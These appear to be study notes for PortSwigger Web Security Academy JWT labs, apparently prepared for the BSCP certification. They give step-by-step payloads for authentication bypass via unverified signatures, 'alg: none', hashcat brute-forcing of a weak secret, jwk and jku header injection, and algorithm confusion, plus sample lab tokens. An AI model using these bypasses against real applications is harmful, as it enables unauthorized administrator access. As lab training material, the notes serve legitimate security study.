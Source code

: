 # JWT

 Symmetric Key  : HS256
 ASymmetric key : RSA

### Lab: JWT authentication bypass via unverified signature

Payload
```
change path :  /admin

{"iss":"portswigger","exp":1760963935,"sub":"wiener"}

{"iss":"portswigger","exp":1760963935,"sub":"administrator"}



```

### Lab: JWT authentication bypass via flawed signature verification

Payload
```
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"RS256"} 
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"none"}
- Remove the signature from the JWT, but remember to leave the trailing dot after the payload.

{"iss":"portswigger","exp":1760966827,"sub":"wiener"}
{"iss":"portswigger","exp":1760966827,"sub":"administrator"}

```

### Lab: JWT authentication bypass via weak signing key

Payload
```
step 1 : Brute-force the secret key

	hashcat -a 0 -m 16500 complete_jwt_tokens ./jwt.secrets.list  : secret1
	Encode in base64 secret1 : c2VjcmV0MQ==

step 2: Generate a forged signing key

	 - JWT Editor Keys tab and click New Symmetric Key : Generate
	 - Replace the generated value for the k property with the Base64-encoded secret.

step 3 - Modify and sign the JWT
		
	 - {"iss":"portswigger","exp":1760963935,"sub":"wiener"}
	 - {"iss":"portswigger","exp":1760963935,"sub":"administrator"}

	 - Sign, then select the key that you generated .



```

## JWT header parameter injections

- According to the JWS specification, only the alg header parameter is mandatory. In practice, however, JWT headers (also known as JOSE headers) often contain several other parameters. The following ones are of particular interest to attackers.

		- 	jwk (JSON Web Key) - Provides an embedded JSON object representing the key.
		-	jku (JSON Web Key Set URL) - Provides a URL from which servers can fetch a set of keys containing the correct key.
		-	kid (Key ID) - Provides an ID that servers can use to identify the correct key in cases where there are multiple keys to choose from. Depending on the format of the key, this may have a matching kid parameter.

### Lab: JWT authentication bypass via jwk header injection

Payload
```
- JWT Editor Keys tab.
- Generate a new RSA key .
- JSON Web Token tab and modify the token's payload however you like.
- Click Attack, then select Embedded JWK.
- you may also need to update the JWT's kid header parameter to match the kid of the embedded key

```

### Lab: JWT authentication bypass via jku header injection

Payload
```
step 1: Generate a RSA signing key
	- JWT Editor Keys tab.
	- Generate a new RSA key 
	- Paste the RSA key on exploit server in below section :
		{
    	"keys": [
    		// Generate a new RSA key 
    		]
		}

- step 2 - Modify and sign the JWT
	- Match the both kid values (new values)
	- Add a new jku parameter to the header of the JWT. Set its value to the URL of your JWK Set on the exploit server.
	- sub  : administrartor 
	- Sign with RSA key
```

![alt text](https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Images/jwt-jku.jpg)


<hr>

### Lab: JWT authentication bypass via algorithm confusion


Payload
```
step 1 — Obtain the server public key
	- Open /jwks.json in the browser and copy the single JWK object from the keys array (copy only the object).

step 2 — Create a malicious symmetric key in Burp

	- In Burp → JWT Editor → Keys: New RSA Key → choose JWK and paste the copied JWK; save.
	- Right-click the new key → Copy Public Key as PEM.
	- Base64-encode that PEM (use Decoder tab) and copy the Base64 string.
	- In JWT Editor → Keys: New Symmetric Key → Generate, then replace the k value with the Base64-encoded PEM; save.

Step 3 — Modify and sign the token

	- Open the GET /admin request in Repeater, switch to the JWT Editor tab.
	- Change JWT header alg → HS256.
	- Change payload claim sub → administrator.
	- Click Sign, pick the symmetric key you created, ensure Don't modify header is selected, and sign.
	- Send the request — you should now access the admin panel.

```


eyJraWQiOiJkMDViODA0OS0zMTJhLTQ5ZDEtOWEzMS1mYzZhZGYyMzA5MDMiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc2MTA4ODA4OSwic3ViIjoid2llbmVyIn0.lS8m_gxpM4IOtEdpN4qRmi9y78y27xfWUCQd9Rhe7mn4MVpvjvPC0zwgD54Y1zOYUohmAHScqQHpqskJ7xm1BviNseldHnuyskG1cdi1DRd_-nglQAGfyor7Zq37wS05TzWIBCvlNgoA3fl53bQMbAAtoNACRgEkRCxwbT3_TAu0rxohctZKXF92sTQxqwsu0EbCgU-UzpAJid9Q9hZBGDy9v0MhFoe-T67RCjZEgrOkFSp6tuu0-KneQa2Rd39T4WMMKAJpzneUDX6U-IISChZaK06ORCNnWQIHmSfXas6Burt8HzqHOxbXb5KrnGQBOJ7Em6fRUrpXMxR1j_h9nQ


eyJraWQiOiJkMDViODA0OS0zMTJhLTQ5ZDEtOWEzMS1mYzZhZGYyMzA5MDMiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc2MTA4ODE3OSwic3ViIjoid2llbmVyIn0.LwNBoOjD0-VwaVQeZ9ELLWDQPUzqR5Uk-vbdMtbM3DVwWWl2xohuE_Qqhi6vQ4p7YdQuYIhrrRSU-nHhZS90nPInvLFLFqYbxrB83Pl9TWxForedKF8eHAKlZ6V7YlmQpknU0divlLb05daF6JeslBbDlXicSy41Gl4KOZncssUwMY-meARFLd9c2vNYwL08KpwJcguSXCXYd7mtrFp2mJj6aLrQbSpMTjtC8iVdzOW4SYnnFpr22gSQoRV8uL1XS66yJNr-WzbFuG88-YnlduywfKuBRbdIpQHhVq6UQbDefC73oWjwkTUMjMIg1AhD1wIhe4labSni8sm5W4Rr6w


Payload
```
Step1:  Collect two valid JWTs
	- Log in, capture the session JWT (/my-account → store cookie).
	- Log out, log in again, capture a second JWT.
Step2: Brute-force candidate public keys
	- Run docker run --rm -it portswigger/sig2n <token1> <token2>.
	- The tool outputs candidate n values, Base64 X.509/PKCS1 public keys and tampered JWTs.
Step3: Find the server’s actual public key
	- For each tampered JWT (X.509 entry) replace your session cookie in Burp and request /my-account.
	- A 200 means you found the correct X.509 key; a 302 redirect to /login means it’s wrong.
Step4: Create a symmetric key in Burp
	- In JWT Editor → Keys → New Symmetric Key → Generate JWK.
	- Replace the k value with the Base64 X.509 key you identified (use the key itself, not the tampered JWT). Save.
	- Forge and sign an admin token
	- In Repeater open the JWT (JWT Editor tab). Set header alg: HS256.
	- Change payload claim sub to administrator.
	- Sign with the symmetric key you created (ensure “Don't modify header” is selected). This uses the server’s public key as the HMAC secret.
```